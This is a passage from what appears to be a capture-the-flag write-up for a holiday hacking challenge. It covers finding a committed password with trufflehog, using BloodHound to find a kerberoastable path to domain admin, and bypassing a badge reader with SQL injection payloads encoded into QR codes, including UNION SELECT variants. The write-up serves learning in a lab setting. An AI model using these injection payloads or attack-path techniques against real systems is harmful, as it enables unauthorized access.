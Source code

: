 ```
> trufflehog --entropy true santas_castle_automation
...
Reason: High Entropy
Date: 2018-12-11 08:16:57
Hash: 0dfdc124b43a4e7e1233599c429c0328ec8b01ef
Filepath: schematics/files/dot/PW/for_elf_eyes_only.md
Branch: origin/master
Commit: important update

-Password = 'Yippee-ki-yay'
...
```

Which gives us the password: "Yippee-ki-yay"

## Objective 5 - AD Privilege Discovery

I imported the VM into VMWare Player, started it and launched Bloodhound.
In Bloodhound, I ran the query "Shortest patch to DA from kerberoastable".
Looking at the graph, I ignored all edges marked "CanRDP" and thus arrived at the only remaining account: "LDUBEJ00320@AD.KRINGLECASTLE.COM"

## Obj 6 - Badge Manipulation

We can analyze the given badge with zbarimg.

```
> zbarimg alabaster_badge.jpg
QR-Code:oRfjg5uGHmbduj2m
```

The badge contains an ID and the hypothesis is that it is passed to an SQL query.
We try encoding and submitting some QR codes with an SQL injection payload.
The following attempts gives various types of errors:

``` 
qrencode -o badge_hack.png "' OR '1'='1"
qrencode -o badge_hack.png "'/**/OR/**/'1'='1" 
qrencode -o badge_hack.png "'/**/OR/**/'1'='0"
```

This tells us that the account found by the 1=1 is disabled so we need to insert a dummy account with a UNION statement.
We try until we get the number of columns right.

```
qrencode -o badge_hack2.png "' UNION SELECT 1;#"
...
qrencode -o badge_hack2.png "' UNION SELECT 1,2,3;#"
```

This unlocks the door and gives us the access control number: 19880715

## Objective 7 - HR Incident Response
